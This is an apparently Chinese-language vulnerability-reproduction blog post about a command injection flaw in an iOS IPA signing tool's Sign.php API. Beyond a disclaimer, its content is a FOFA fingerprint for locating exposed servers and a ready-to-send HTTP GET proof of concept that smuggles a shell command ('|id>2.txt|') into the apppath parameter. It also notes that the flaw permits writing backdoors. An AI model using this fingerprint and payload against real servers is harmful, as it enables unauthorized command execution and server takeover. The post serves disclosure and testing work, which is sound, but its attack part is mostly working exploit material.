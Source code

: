 #  漏洞复现 || 苹果IOS端IPA签名工具Sign.php接口存在任意命令执行   
韩文庚  我爱林   2024-11-11 21:21  
  
## 免责声明  
  
**我爱林攻防研究院的技术文章仅供参考，****任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益****，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
## 漏洞描述  
  
苹果IOS端IPA签名工具Sign.php接口存在任意命令执行漏洞，  
攻击者可以利用此漏洞执行任意指令，且写入后门文件可获取服务器权限，造成严重威胁。  
## 资产确定  
```
fofa： body="/assets/index/css/mobileSelect.css"
```  
## 漏洞复现  
  
1.利用如下PO  
C执行id得到回显  
```
GET /api/sign/sign?udidres[0][sjskg]=1&noinject[name]=a&ttname=1&udid=1&appname=1&appid=a&appicon=1&apppath=|id>2.txt|&p12path=1&mppath=1&appbid=1&ipaPath=1&gm=0&filesPath=1&rm=1&app_name=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlPKYOdb4vIl9BKwPB9q9LTnaXvqBZdc5rRWvRwMgIKHKC9mWr8H8wwVOjxydaSrna1ibPo03T3ZCVQ/640?wx_fmt=png&from=appmsg "")  
  
如有侵权，请联系删除  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**点它，分享点赞在看都在这里**  
  
  

